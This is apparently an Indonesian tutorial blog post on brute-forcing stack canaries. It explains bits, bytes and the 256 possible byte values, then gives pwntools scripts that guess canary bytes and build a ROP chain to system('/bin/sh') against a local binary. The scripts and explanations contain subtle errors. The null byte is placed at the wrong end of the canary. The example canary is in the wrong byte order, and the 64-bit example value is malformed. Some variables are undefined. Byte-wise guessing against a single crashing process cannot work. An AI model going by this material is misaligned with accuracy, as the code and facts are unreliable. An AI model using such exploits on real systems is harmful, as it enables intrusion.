 ```yaml
---
title: Bypass Stack Canary - Memahami Bit, Byte, dan Nilai 256 dalam Brute-Force Exploit
date: 2025-08-19
Tags: ["Pwn"]
---
```




## **1. Apa Itu Bit dan Byte?**  
Sebelum memahami **stack canary**, kita perlu mengerti dasar-dasar **bit** dan **byte**:  

- **1 Bit** = Nilai terkecil dalam komputasi (`0` atau `1`).  
- **1 Byte** = Kumpulan **8 bit** (contoh: `01011010`).  
  - **1 Byte bisa menyimpan nilai dari `0` sampai `255`** (total **256 kemungkinan**).  
  - Kenapa **256**? Karena `2^8 = 256` (8 bit = 256 kombinasi).  

Contoh:  
- `00000000` (binary) = `0` (decimal)  
- `11111111` (binary) = `255` (decimal)  

**Kesimpulan:**  
- **1 Byte = 8 Bit = Nilai 0-255 (total 256 kemungkinan).**  
- **Nilai 256 dipakai karena itu batas maksimal 1 byte.**  

---

## **2. Apa Itu Stack Canary?**  
**Stack Canary** adalah nilai rahasia (random) di stack yang berfungsi seperti "alarm" untuk mendeteksi **buffer overflow**.  

- **Ukuran Canary:**  
  - **32-bit program** → Canary = **4 byte** (contoh: `0xefbead00`)  
  - **64-bit program** → Canary = **8 byte** (contoh: `0xdeadbeefcafeb00`)  

- **Cara Kerja:**  
  - Jika ada **buffer overflow**, canary akan **tertimpa** sebelum return address.  
  - Sebelum fungsi selesai (`ret`), program mengecek apakah canary masih utuh.  
  - Jika **berubah** → Program crash (`*** stack smashing detected ***`).  

---

## **3. Kenapa Brute-Force Canary Menggunakan `range(256)`?**  
Karena **setiap byte canary bisa bernilai `0` sampai `255` (total 256 kemungkinan)**, kita perlu mencoba semua kemungkinan byte tersebut.  

### **Contoh Brute-Force Canary (32-bit)**
```python
from pwn import *

p = process("./binary32")  # Program 32-bit (canary 4 byte)

canary = b""  # Inisialisasi canary kosong

# Brute-force 3 byte pertama (byte ke-4 = \x00)
for i in range(3):  # 3 byte pertama
    for byte in range(256):  # Coba semua nilai byte (0-255)
        payload = b"A"*offset + canary + bytes([byte])
        p.sendline(payload)
        if b"stack smashing" not in p.recv():  # Jika tidak crash, byte benar
            canary += bytes([byte])  # Tambahkan byte yang benar
            print(f"Found byte {i+1}: {hex(byte)}")
            break

canary += b"\x00"  # Tambahkan null byte terakhir (byte ke-4)
print(f"Full canary: {hex(u32(canary))}")  # Output: 0xefbead00 (misal)
```

### **Penjelasan Kode:**  
1. **`for byte in range(256)`**  
   - Mencoba **semua nilai byte (0-255)** untuk menemukan byte yang benar.  
2. **`bytes([byte])`**  
   - Mengubah angka (misal `255`) menjadi byte (`\xff`).  
3. **`canary += b"\x00"`**  
   - Byte terakhir canary biasanya `\x00` (null byte), jadi tidak perlu ditebak.  

---

## **4. Penerapan Brute-Force Canary dalam Exploit**  
Setelah dapat **canary**, kita bisa lanjutkan eksploitasi dengan **Return-Oriented Programming (ROP)** atau **Ret2Libc**.  

### **Contoh Payload Setelah Dapat Canary (32-bit)**
```python
from pwn import *

p = process("./binary32")
offset = 64  # Ganti dengan offset yang benar
canary = b"\xef\xbe\xad\x00"  # Canary yang sudah ditemukan

# ROP chain untuk call system("/bin/sh")
rop = ROP("./binary32")
rop.call("system", [next(libc.search(b"/bin/sh"))])

payload = (
    b"A" * offset +  # Isi buffer
    canary +         # Canary yang benar
    b"B" * 12 +      # Padding (EBP & alignment)
    rop.chain()      # ROP chain
)

p.sendline(payload)
p.interactive()  # Dapat shell!
```

---

## **5. Kesimpulan**  
- **1 Byte = 8 Bit = Nilai 0-255 (256 kemungkinan).**  
- **Brute-force canary** = Mencoba semua kemungkinan byte (`0-255`) untuk menemukan nilai canary.  
- **32-bit canary** = 4 byte (3 byte ditebak, 1 byte null).  
- **64-bit canary** = 8 byte (7 byte ditebak, 1 byte null).  
- **Setelah dapat canary**, lanjutkan dengan **ROP/Ret2Libc** untuk bypass NX.  

Dengan memahami **bit, byte, dan nilai 256**, kita bisa melakukan **brute-force canary** untuk mengeksploitasi **buffer overflow**! 🚀  
